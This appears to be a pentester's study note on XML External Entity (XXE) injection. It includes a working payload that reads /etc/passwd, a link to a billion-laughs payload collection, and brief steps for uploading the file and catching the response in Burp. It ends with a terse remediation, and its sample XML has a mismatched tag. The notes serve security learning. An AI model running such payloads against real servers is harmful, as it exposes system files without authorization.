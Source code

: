 # XML External Entities (XXE)

## What is XXE?

1. <mark style="color:yellow;">Attacking systems that parse XML input</mark>
2. Abuse SYSTEM entity and get malicious
3. <mark style="color:yellow;">Attacks include DoS, LFI, RCE, and more</mark>

Can you place malicious XML files onto a server and get the web application to parse the XML and trigger the attack?

### Test XML File for XXE Testing

Classic XXE:

{% code overflow="wrap" %}
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
{% endcode %}

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE gift [
    <!ENTITY from "hacker">
]>

<gift>
    <To>Frank</To>
    <From>&from;</From>
    <Item>Baseball Cards</Items>

</gift>
```

### XXE Payloads (PayloadsAllTheThings)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#billion-laugh-attack" %}

## XXE Attack and Defense

* You should attempt to identify file upload possibilities
* Once you identify a file upload, upload it to the web app and intercept the request with Burp
* If the XML is parsed, it will trigger the malicious code and return the results blindly (hence why you need Burp)

Response intercepted from Burp:

* you can see that we see the results of /etc/passwd

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Remediation

* If you disable external entities
* Once you do this, you will be able to mitigate this vulnerability
